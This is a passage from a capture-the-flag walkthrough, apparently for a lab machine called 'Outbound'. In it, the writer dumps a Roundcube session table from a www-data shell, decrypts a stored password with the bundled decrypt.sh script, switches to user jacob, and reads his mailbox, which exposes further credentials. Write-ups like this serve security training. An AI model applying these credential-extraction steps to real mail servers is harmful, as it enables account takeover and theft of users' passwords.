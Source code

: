 ```
2       mel     localhost       2025-06-08 12:04:51     2025-06-08 13:29:05     NULL    NULL    en_US   a:1:{s:11:"client_hash";s:16:"GCrPGMkZvbsnc3xv";}
3       tyler   localhost       2025-06-08 13:28:55     2025-07-14 04:52:17     2025-07-14 04:37:55     1       en_US   a:2:{s:11:"client_hash";s:16:"32ItyPs4nmA1Shm8";i:0;b:0;}

Then we can find something ineresting from the session table

```
We can Base64 decode them and find a password hash here `L7Rv00A8TuwJAr67kITxxcSgnIk25Am/`
![](images/Pasted%20image%2020250715005409.png)

There is another decrypt script in `/var/www/html/roundcube/bin/decrypt.sh` and we can get the cracked password
```
www-data@mail:/var/www/html/roundcube/bin$ ./decrypt.sh L7Rv00A8TuwJAr67kITxxcSgnIk25Am/
</bin$ ./decrypt.sh L7Rv00A8TuwJAr67kITxxcSgnIk25Am/
595mO8DmwGeD
```
Then we can get the credit of `jacob:595mO8DmwGeD` and we can switch to user `jacob` by `su jacob`

Firstly, we can check the email of `jacob` in `/home/jacob/mail/jacob`
```

From tyler@outbound.htb  Sat Jun  7 14:00:58 2025
Return-Path: <tyler@outbound.htb>
X-Original-To: jacob
Delivered-To: jacob@outbound.htb
Received: by outbound.htb (Postfix, from userid 1000)
        id B32C410248D; Sat,  7 Jun 2025 14:00:58 +0000 (UTC)
To: jacob@outbound.htb
Subject: Important Update
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <20250607140058.B32C410248D@outbound.htb>
Date: Sat,  7 Jun 2025 14:00:58 +0000 (UTC)
From: tyler@outbound.htb
X-UID: 2                                        
Status: O

Due to the recent change of policies your password has been changed.

Please use the following credentials to log into your account: gY4Wr3a1evp4

Remember to change your password when you next log into your account.

Thanks!

Tyler


From mel@outbound.htb  Sun Jun  8 12:09:45 2025
Return-Path: <mel@outbound.htb>
```